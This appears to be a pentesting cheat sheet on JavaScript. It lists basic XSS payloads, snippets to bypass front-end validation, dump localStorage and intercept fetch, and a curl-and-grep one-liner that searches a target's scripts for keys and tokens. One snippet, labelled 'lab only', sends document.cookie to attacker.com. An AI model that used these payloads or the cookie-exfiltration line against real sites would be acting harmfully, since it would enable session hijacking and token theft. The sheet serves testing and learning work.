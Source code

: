    

Javascript

# 🕵️‍♂️ JavaScript for Pentesting Cheat Sheet

## 🎯 Common uses in pentesting

✅ **Client-side recon** – find hidden endpoints, API keys, or logic.  
✅ **Testing XSS payloads.**  
✅ **Tampering / debugging front-end validation.**  
✅ **Session hijacking or token theft.**  
✅ **Exploiting CSP weaknesses or DOM-based XSS.**  
✅ **API fuzzing / replaying AJAX calls.**

---

## 🔥 Quick XSS payloads

"><script>alert(1)</script>
"><img src=x onerror=alert(1)>
"><svg/onload=alert(1)>
javascript:alert(document.cookie)

```
"><script>alert(1)</script>
"><img src=x onerror=alert(1)>
"><svg/onload=alert(1)>
javascript:alert(document.cookie)
```

---

## 🛠 Useful JS snippets for testing

// Steal cookies (lab only)
fetch("http://attacker.com/cookie?c=" + document.cookie);

// List all form fields
document.querySelectorAll('input, select, textarea').forEach(e => console.log(e));

// Override JS validation
Object.defineProperty(document.forms[0], 'onsubmit', { value: () => true });

// Dump local storage
console.log(localStorage);

// Intercept fetch
const origFetch = fetch;
fetch = function() { console.log(arguments); return origFetch.apply(this, arguments); };

```
// Steal cookies (lab only)
fetch("http://attacker.com/cookie?c=" + document.cookie);

// List all form fields
document.querySelectorAll('input, select, textarea').forEach(e => console.log(e));

// Override JS validation
Object.defineProperty(document.forms[0], 'onsubmit', { value: () => true });

// Dump local storage
console.log(localStorage);

// Intercept fetch
const origFetch = fetch;
fetch = function() { console.log(arguments); return origFetch.apply(this, arguments); };
```

---

## 🔍 Debugging / Testing Tools

|Tool|Use case|
|---|---|
|`console.log()`|Print debug info|
|`debugger;`|Triggers browser debug pause|
|Chrome DevTools|Inspect network, breakpoints|
|`JSON.stringify(obj,null,2)`|Pretty-print objects|
|Proxy tools (Burp, ZAP)|Manipulate requests|

---

## 🕸️ JS obfuscation / deobfuscation

### ✅ Obfuscate JavaScript

- [https://codebeautify.org/javascript-obfuscator](https://codebeautify.org/javascript-obfuscator "https://codebeautify.org/javascript-obfuscator")
    
    > Quick way to obfuscate simple scripts.
    

### ✅ Deobfuscate JavaScript

- [https://obf-io.deobfuscate.io/](https://obf-io.deobfuscate.io/ "https://obf-io.deobfuscate.io/")
    
    > Deobfuscate packed/minified JS.
    

---

## 📖 Example: simple obfuscation

// Original
alert('Hacked!');

// Obfuscated via codebeautify
var _0x5e45=["\x48\x61\x63\x6B\x65\x64\x21"];alert(_0x5e45[0]);

```
// Original
alert('Hacked!');

// Obfuscated via codebeautify
var _0x5e45=["\x48\x61\x63\x6B\x65\x64\x21"];alert(_0x5e45[0]);
```

---

## ⚡ Tips

✅ Check `.js` files in the site — often `/static/*.js`, `/js/app.js`, etc.  
✅ Look for hardcoded secrets, API keys, tokens.  
✅ Grep for suspicious code:

curl https://target.com/app.js | grep -iE "api|key|token|secret"

```
curl https://target.com/app.js | grep -iE "api|key|token|secret"
```

✅ Use **DevTools -> Sources** or **Network -> JS responses** to find dynamically loaded scripts.